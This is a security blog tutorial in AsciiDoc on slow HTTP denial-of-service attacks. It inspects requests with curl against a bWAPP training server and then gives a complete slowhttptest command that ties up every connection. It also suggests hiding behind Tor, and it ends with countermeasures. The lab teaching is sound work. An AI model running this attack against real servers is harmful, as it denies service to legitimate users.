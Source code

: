 :slug: asymmetric-dos-slow-http-attack/
:date: 2018-11-15
:category: attacks
:subtitle: The story of David and Goliath
:tags: security, vulnerability
:image: cover.png
:alt: greek statue with small angels.
:description:  After reading this post, you'll know about asymmetric attacks and denial of service attacks. You'll know how a slow http attack works, how to inspect http requests and responses, and you'll see how to perform an asymmetric denial of service against bWAPP with slowhttptest!
:keywords: DoS, Vulnerability, Slowhttptest, Slow Body, HTTP, Asymmetric attacks.
:author: Kevin Amado
:writer: kamadoatfluid
:name: Kevin Amado
:about1: Civil Engineer
:about2: "An algorithm must be seen to be believed" Donald Knuth
:source: https://unsplash.com/photos/Wf2tCunxqQU

= Asymmetric DoS, slow HTTP attack

Have you ever heard the story of David and Goliath?
David, a young boy, goes out to confront a giant, named Goliath.
David is the underdog in this fight and is expected to lose.
But, everyone underestimates David and his prowess with a slingshot.
When David ultimately kills Goliath,
he demonstrates that even a little guy can triumph
over the biggest and strongest of enemies.

Fine! Today we are going to talk about unequal scenarios.
Furthermore, we are going to battle one ourselves.

== Let's get started

So, let’s imagine, for a moment,
that all you need to kill the giant,
that everyone fears, is a little slingshot,
not a big mace, nor the strength of a thousand men.
Sound crazy? Well, it is. But it’s possible.

A cyber attack is considered "asymmetric"
in the sense that you only need a few resources,
in this case, a laptop,
in order to cause a considerable amount of damage,
malfunction or failure in the server.
A very real case of David vs. Goliath.

If we push hard enough, the server is going to stop providing the service to
other users, in other words, we will cause a _Denial of Service_ (DoS).

== How does a slow http attack work?

Imagine a line at the local fast food restaurant.
A customer at the head of the line
can't decide if he wants a burger or a hot-dog.
People behind him in line are getting mad;
they aren't getting their food
because he is holding up the whole line.

If you look at it in more detail,
all this customer needed to do was to "not know what to order".
His indecision basically caused a denial of service
for every other person waiting behind him at the counter, i.e. A DoS.

Now imagine the same line,
but the customer at the counter knows what he wants to order,
and he's ordering a thousand burgers and a hundred hot-dogs.
Again, this means everyone behind him in line
will have to wait while his order is filled.
The restaurant can take no more orders until his is complete.

The HTTP protocol works similarly, it requires requests to be fully received by
the final user before they are processed.

Two things can happen, if a request is not completed,
the server can either wait
or set the request as timed out after some few seconds.
However, if you let the request complete,
but at a slow rate, then the server will keep the resource busy
waiting for the end of the data.

What would happen if the customer orders a thousand burgers
and a hundred hot-dogs, but he can't decide
which sauces and drinks to order with them?
And, to make matters worse, he seems to be intentionally indecisive
and he's speaking very slowly.

The answer:

[button]#link:https://cwe.mitre.org/data/definitions/400.html[D.o.S.]#

This is exactly the idea behind a slow HTTP attack.

A web server keeps its active connections
in a relatively small connection pool.
We will try to tie all the connections in this pool
to slow requests, making the server reject other users.

== Let's do an HTTP request

First, let’s run a
[button]#link:http://www.itsecgames.com/[bWAPP]#
server on ip _192.168.56.101_.

.BWAPP server
image::bwapp-running.png[bwapp-running]

For now, let’s assume that we are at:

----
192.168.56.101/bWAPP/xss_post.php.
----

And we entered in the form:

.XSS page and input
image::xss-login-form.png[xss-login-form]

Once we access a page,
the browser is going to ask the server for some resources
(images, texts, `HTML` pages, `CSS` and `JavaScript` files, etc)
and we can see these requests and responses
from the command line using `curl`
(or Google Chrome, or Firefox, or `BURP`).

The process using _curl_ is:

[source, bash, linenums]
----
$ # login to the server so we can see as a logged user the page we want
$ curl -L -c post_login_cookie 'http://192.168.56.101/bWAPP/login.php' \
--data 'login=bee&password=bug&security_level=0&form=submit'
$ # result: a file is saved with name 'post_login_cookie'
$
$ # submit a post request with the data we want on the field
$ curl -L -b post_login_cookie -v \
-d "firstname=test1&lastname=test2&form=submit" \
http://192.168.56.101/bWAPP/xss_post.php
$ # output is displayed to console, we'll see it in a moment
----

As mentioned before,
every single resource is going to have a request and a corresponding response.
In other words, we are asking the server for the _xss_post.php_ resource with
the parameters:

.POST Parameters
[source, bash, linenums]
----
firstname=test1&lastname=test2&form=submit
----

Since we want to se an HTML page, _curl_ asks for it:

.curl, server request output
[source, bash, linenums]
----
*   Trying 192.168.56.101...
* TCP_NODELAY set
* Connected to 192.168.56.101 (192.168.56.101) port 80 (#0)
> POST /bWAPP/xss_post.php HTTP/1.1
> Host: 192.168.56.101
> User-Agent: curl/7.58.0
> Accept: */*
> Cookie: PHPSESSID=5fvb1fr053gmc2f91ooicvf1f5; security_level=0
> Content-Length: 41
> Content-Type: application/x-www-form-urlencoded
----

And the server replies with:

.curl, server response output
[source, bash, linenums]
----
* upload completely sent off: 41 out of 41 bytes
< HTTP/1.1 200 OK
< Date: Thu, 15 Nov 2018 21:31:32 GMT
< Server: Apache/2.2.14 (Ubuntu) mod_mono/2.4.3 PHP/5.3.2-1ubuntu4.30 with
Suhosin-Patch proxy_html/3.0.1 mod_python/3.3.1 Python/2.6.5 mod_ssl/2.2.14
OpenSSL/0.9.8k Phusion_Passenger/4.0.38 mod_perl/2.0.4 Perl/v5.10.1
< X-Powered-By: PHP/5.3.2-1ubuntu4.30
< Expires: Thu, 19 Nov 1981 08:52:00 GMT
< Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
< Pragma: no-cache
< Vary: Accept-Encoding
< Content-Length: 11291
< Content-Type: text/html
----

At this point,
nothing stops us from sending follow up headers with random values:

.POST Parameters
[source, bash, linenums]
----
firstname=FASLDKJFEI&lastname=test2&form=submit
----

wait some seconds...

.POST Parameters
[source, bash, linenums]
----
firstname=IEU182KSZ&lastname=test2&form=submit
----

And nothing stops us from simulating a slow connection
on each one of these requests,
so the server is going to have to wait
until we receive the full resource.

Why not do a thousand requests
until every single connection available on the server pool
is busy with us?

To do this, we are going to use a tool.

== Using slowhttptest

First, let's pull the
link:https://hub.docker.com/r/frapsoft/slowhttptest/[slowhttptest docker image]
from the docker hub.

.Bash command
[source, bash, linenums]
----
$ docker pull frapsoft/slowhttptest
----

And write the following command:

.Bash command
[source, bash, linenums]
----
$ sudo docker run --name DoSBWAPP --rm  frapsoft/slowhttptest \
-c 65539 -B -i 10 -l 300 -r 10000 -s 16384 -t firstname \
-u "http://192.168.56.101/bWAPP/xss_get.php" -x 10 -p 300
----

The parameters you see are described below:

.Slowhttptest description
|====
|-c 65539| use 65539 connections
|-B|specify to slow down the http in message body mode
|-i 10|seconds of interval between follow up data, per connection
|-l 300| duration of the test in seconds
|-p 300|timeout in seconds to wait for HTTP response on probe connection,
after which server is considered inaccessible
|-r 10000| connections per second
|-s 16384|value of Content-Length header
|-x 10|max length of follow up data in bytes
|-t firstname|add ?firstname=(-x 10bytes) to the target url
|-u URL|target URL
|====

While the attack is running a user that tries to access the service is going
to see:

.BWAPP is trying to connect without success
image::bwapp-while-attacking.png[bwapp-while-attacking]

If the attack is long enough, it is going to get timed out:

.BWAPP gets timed-out
image::bwapp-timed-out.png[bwapp-timed-out]

Once the attack is finished everything returns to a normal state:

.BWAPP working normally after attack
image::bwapp-attack-finished.png[bwapp-attack-finished]

Since we only need a few resources (the internet and a laptop)
we can even do it on a low-bandwidth connection.
Moreover, since we don't need too much bandwidth,
we can pass everything through a proxy
in the tor network and hide ourselves.

== Sounds scary, how do I protect myself?

Counter-measures depend mainly on your service.
Some useful mechanisms to prevent this kind of attacks are:

* Limit the number of resources an unauthorized user can expend.
* Set the header and message body to a maximum reasonable length.
* Define a minimum incoming data rate, and drop those that are slower.
* Set an absolute connection timeout.
* Use a Web Application Firewall.
* Reject connections with verbs not supported by the URL.

In cases where you need to set minimum and maximum limits,
it's a good idea to use the values from your statistics.
If the value is too short, you may risk dropping legitimate connections;
if it is too long, you won't get any protection from attacks.
Perhaps using a margin ranging
from one to two link:https://en.wikipedia.org/wiki/Normal_distribution#/media/File:Empirical_Rule.PNG[standard deviations]
may help you with this.

== Finally

I really hope that you liked this article.

I wish you a nice week, and will see you in another post!

== References

. [[r1]] Wikipedia (2018).
'Hypertext Transfer Protocol'.
link:https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol[Wiki].

. [[r2]] Sergey Shekyan (2018).
'Slowhttptest - Instalation and usage'.
link:https://github.com/shekyan/slowhttptest/wiki/InstallationAndUsage[Github wiki].

. [[r3]] Sergey Shekyan (2018).
'Application Layer DoS attack simulator'.
link:https://blog.qualys.com/tag/slow-http-attack[Docker hub].
